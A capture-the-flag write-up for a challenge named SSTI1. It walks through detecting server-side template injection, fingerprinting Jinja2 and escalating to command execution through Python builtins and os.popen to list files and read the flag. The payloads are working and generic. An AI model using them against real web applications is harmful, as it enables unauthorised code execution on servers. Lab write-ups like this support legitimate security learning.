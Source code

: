 # SSTI1
## Description: 
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. First confirming SSTI using the payload, `${{<%[%'"}}%\.` and it should cause internal server error.
2. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
3. To dump all available built-in functions, try `{{self.__init__.__globals__.__builtins__}}`. Notice no blacklisting to user input.
4. To gain RCE and list available files, try `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`
5. Lastly, to read the flag, use `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
